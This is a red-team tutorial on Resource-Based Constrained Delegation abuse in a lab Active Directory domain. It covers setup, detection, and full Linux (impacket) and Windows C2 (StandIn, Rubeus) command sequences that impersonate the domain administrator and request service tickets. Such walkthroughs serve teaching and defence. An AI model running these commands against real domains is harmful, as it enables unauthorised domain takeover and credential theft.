> Author : lineeralgebra
{:.prompt-tip}

# **RBCD: Resource-Based Constrained Delegation**

**Resource-Based Constrained Delegation (RBCD)** is a feature in Active Directory that allows a **target computer or service** to control which accounts can delegate to it. Unlike classic **Constrained Delegation**, where delegation rights are configured on the **source account**, RBCD shifts the control to the **resource** itself. This makes it more flexible and secure, as the resource decides which users or services can act on behalf of others.

RBCD is commonly abused in Red Team scenarios to **impersonate high-privileged users** by leveraging the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute on computer objects. Proper configuration ensures delegation is explicit and auditable.

## RBCD happening why?

Lets talk about first why RBCD happenning and understand whats going on!!

1. Open ADUC
- Run `dsa.msc` on your DC (or a machine with RSAT).
- Make sure **Advanced Features** is enabled in the **View** menu (important, otherwise you won’t see the “Security” tab).



2 - Find the Resource and DC

- Navigate to **Domain Controllers OU**.
- Right-click **VALENOR-DC01**, then **Properties**.

3- Check at **Security** tab

- On the user u can go **Advanced**



after that page chouse our user at **Permission** tab and click at **Edit**



Scroll down and make sure those are selected.



Okey now lets check how we can detect and verify our attack first.

## RBCD Detection and Verify

First of all!!! There is way to to detect RBCD and its easy but in this section i wanna show u different approach off course!!!

This is easiest way to detect 

```bash
PS C:\Users\Administrator> Get-ADComputer "VALENOR-DC01" -Properties msDS-AllowedToActOnBehalfOfOtherIdentity | Select-Object -ExpandProperty msDS-AllowedToActOnBehalfOfOtherIdentity

Path Owner                  Access
---- -----                  ------
     BUILTIN\Administrators lab\ldapuser Allow
```

But lets do something more interesting!!!

### Think out of ideas

I will start with **Bloodhound** 

Lets say in this way we owned **ldapsuer** and we found at **bloodhound**



and checked it and we saw



but if we wanna check with **ADSearch.exe** 

```bash
execute-assembly /home/elliot/tools/SharpCollection/NetFramework_4.7_Any/ADSearch.exe --search "(&(objectCategory=user)(msDS-AllowedToActOnBehalfOfOtherIdentity=*))" --attributes dnshostname,samaccountname,msDS-AllowedToActOnBehalfOfOtherIdentity --json
```



we cannot find our user. Here is why;

- **Our user has permission to write on it and we can use it for add computer and add our computer RBCD so we can request TARGET DC ticket**

So it should be frustrating when we are try with manual detection why i choose this way.

OKey so lets move on **ATTACK**

## RBCD Attack - Linux

Lets do with linux abuse first and we will see **BLOODHOUND** show us command but we will go step by step.

### 1.Before add computer we have to sure maq≠0

We can check with

```bash
➜  RBCD nxc ldap VALENOR-DC01.lab.local -u ldapuser -p liverpool -M maq
LDAP        192.168.1.10    389    VALENOR-DC01     [*] Windows 10 / Server 2019 Build 17763 (name:VALENOR-DC01) (domain:lab.local)
LDAP        192.168.1.10    389    VALENOR-DC01     [+] lab.local\ldapuser:liverpool 
MAQ         192.168.1.10    389    VALENOR-DC01     [*] Getting the MachineAccountQuota
```

### 2.Lets add computer

we can add computer with [impacket-addcomputer](https://github.com/fortra/impacket/blob/master/examples/addcomputer.py)

```bash
addcomputer.py 'lab.local/ldapuser:liverpool' -computer-name irem -computer-pass Winter2025! -dc-host VALENOR-DC01.lab.local
```



### 3. Now we can try RBCD

We now need to configure the target object so that the attacker-controlled computer can delegate to it. Impacket's [rbcd.py](http://rbcd.py/) script can be used for that purpose:

```bash
rbcd.py -delegate-from 'irem$' -delegate-to 'VALENOR-DC01$' -action 'write' 'lab.local/ldapuser:liverpool'
```



### 4. Request ticket

Now we gave **irem$** `write` permission cause our user ldapuser has add permission now we can request ticket of Administrator

```bash
getST.py -spn 'cifs/VALENOR-DC01.lab.local' -impersonate 'administrator' 'lab.local/irem$:Winter2025!'
```



### 5. We are done

Just need to export it and dump everything



## RBCD Attack - Windows(C2)

The reason i check windows part mostly i wanna show u great tool [StandIN.exe](https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.7_Any/StandIn.exe)

https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.7_Any/StandIn.exe

Lets verify something and do this attack



Firs get beacon from our user and

### 1.Before add computer we have to sure maq≠0

we can check with

```bash
powershell-import /home/elliot/tools/PowerView.ps1
powerpick Get-DomainObject -Identity "dc=lab,dc=local" -Domain lab.local
```



The quote is set to the default of 10, which is good.

### 2.**Create Fake Computer**

Of course im gonna use [StandIn](https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.7_Any/StandIn.exe)

Command to execute:

```bash
execute-assembly /home/elliot/tools/SharpCollection/NetFramework_4.7_Any/StandIn.exe --computer EvilComputer --make --Domain lab.local
```



it will create with random password.

### 3. Get SID

```bash
powerpick Get-DomainComputer -Identity EvilComputer -Properties objectsid
```



### 4. Set RBCD

```bash
powerpick Set-ADComputer VALENOR-DC01 -PrincipalsAllowedToDelegateToAccount EvilComputer$
powerpick Get-ADComputer VALENOR-DC01 -Properties PrincipalsAllowedToDelegateToAccount
```



Now to get a S4U hash to impersonate as administrator with Rubeus

### S4U for Administrator

First lets get rc4 hash for our computer

Command to execute:

```bash
execute-assembly /home/elliot/tools/Rubeus.exe hash /password:xryR1RNiOEbaCQ4 /user:EvilComputer$ /domain:VALENOR-DC01.lab.local
```



Now lets craete ticket for Administrator.

Command to execute:

```bash
execute-assembly /home/elliot/tools/Rubeus.exe s4u /user:EvilComputer$ /password:xryR1RNiOEbaCQ4 /domain:lab.local /impersonateuser:administrator /rc4:F5618B29262FE3330D10B94266559FA3 /msdsspn:host/VALENOR-DC01.lab.local /nowrap
```



and lets convert it to ccache



Done!!